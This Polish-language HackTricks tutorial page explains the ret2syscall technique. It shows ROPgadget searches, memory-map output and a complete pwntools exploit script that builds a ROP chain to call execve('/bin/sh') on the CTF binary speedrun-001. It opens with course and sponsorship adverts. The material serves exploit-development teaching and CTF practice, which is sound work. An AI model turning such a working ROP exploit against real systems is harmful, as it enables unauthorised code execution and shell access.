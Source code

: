 # Ret2syscall

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

To jest podobne do Ret2lib, jednak w tym przypadku nie będziemy wywoływać funkcji z biblioteki. W tym przypadku wszystko będzie przygotowane do wywołania syscalla `sys_execve` z pewnymi argumentami w celu wykonania `/bin/sh`. Ta technika zazwyczaj jest wykonywana na binariach skompilowanych statycznie, więc może być wiele gadżetów i instrukcji syscalla.

Aby przygotować wywołanie **syscalla**, potrzebna jest następująca konfiguracja:

* `rax: 59 Określ sys_execve`
* `rdi: wskaźnik do "/bin/sh" określ plik do wykonania`
* `rsi: 0 określ brak przekazywanych argumentów`
* `rdx: 0 określ brak przekazywanych zmiennych środowiskowych`

Więc w zasadzie trzeba zapisać ciąg znaków `/bin/sh` gdzieś, a następnie wykonać `syscall` (będąc świadomym wymaganego wypełnienia do kontrolowania stosu). W tym celu potrzebujemy gadżetu do zapisania `/bin/sh` w znanym obszarze.

{% hint style="success" %}
Innym interesującym syscall'em do wywołania jest **`mprotect`**, który pozwoliłby atakującemu **zmodyfikować uprawnienia strony w pamięci**. Może to być połączone z [**ret2shellcode**](../stack-overflow/stack-shellcode/).
{% endhint %}

## Gadżety rejestrów

Zacznijmy od znalezienia **jak kontrolować te rejestry**:
```bash
ROPgadget --binary speedrun-001 | grep -E "pop (rdi|rsi|rdx\rax) ; ret"
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x00000000004498b5 : pop rdx ; ret
```
Z tymi adresami można **zapisać zawartość na stosie i załadować ją do rejestrów**.

## Napisz ciąg znaków

### Pamięć zapisywalna

Najpierw musisz znaleźć miejsce zapisywalne w pamięci
```bash
gef> vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/kali/git/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
```
### Zapisz ciąg znaków w pamięci

Następnie musisz znaleźć sposób na zapisanie dowolnej zawartości pod tym adresem
```python
ROPgadget --binary speedrun-001 | grep " : mov qword ptr \["
mov qword ptr [rax], rdx ; ret #Write in the rax address the content of rdx
```
### Automatyzacja łańcucha ROP

Następujące polecenie tworzy pełny łańcuch ROP dla `sys_execve` dla statycznego pliku binarnego, gdy dostępne są gadżety write-what-where oraz instrukcje syscall:
```bash
ROPgadget --binary vuln --ropchain
```
#### 32 bity
```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''

rop += popRdx           # place value into EAX
rop += "/bin"           # 4 bytes at a time
rop += popRax           # place value into edx
rop += p32(0x6b6000)    # Writable memory
rop += writeGadget   #Address to: mov qword ptr [rax], rdx

rop += popRdx
rop += "//sh"
rop += popRax
rop += p32(0x6b6000 + 4)
rop += writeGadget
```
#### 64 bity
```python
'''
Lets write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000) # Writable memory
rop += writeGadget #Address to: mov qword ptr [rax], rdx
```
## Brakujące Gadżety

Jeśli **brakuje Ci gadżetów**, na przykład do zapisania `/bin/sh` w pamięci, możesz użyć techniki **SROP do kontrolowania wszystkich wartości rejestrów** (w tym RIP i rejestrów parametrów) ze stosu:

{% content-ref url="srop-sigreturn-oriented-programming.md" %}
[srop-sigreturn-oriented-programming.md](srop-sigreturn-oriented-programming.md)
{% endcontent-ref %}
```python
from pwn import *

target = process('./speedrun-001')
#gdb.attach(target, gdbscript = 'b *0x400bad')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x48d251)

# Our syscall gadget
syscall = p64(0x40129c)

'''
Here is the assembly equivalent for these blocks
write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = ''
rop += popRdx
rop += "/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000)
rop += writeGadget

'''
Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
pop rdx, 0x0

syscall
'''

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += p64(0x6b6000)

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


# Add the padding to the saved return address
payload = "0"*0x408 + rop

# Send the payload, drop to an interactive shell to use our new shell
target.sendline(payload)

target.interactive()
```
## Inne Przykłady i Odnośniki

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals19\_speedrun1/index.html)
* 64 bity, brak PIE, nx, zapisz w pamięci ROP do wywołania `execve` i skocz tam.
* [https://guyinatuxedo.github.io/07-bof\_static/bkp16\_simplecalc/index.html](https://guyinatuxedo.github.io/07-bof\_static/bkp16\_simplecalc/index.html)
* 64 bity, nx, brak PIE, zapisz w pamięci ROP do wywołania `execve` i skocz tam. Aby zapisać na stosie funkcję wykonującą operacje matematyczne, jest nadużywane.
* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bity, brak PIE, nx, BF canary, zapisz w pamięci ROP do wywołania `execve` i skocz tam.
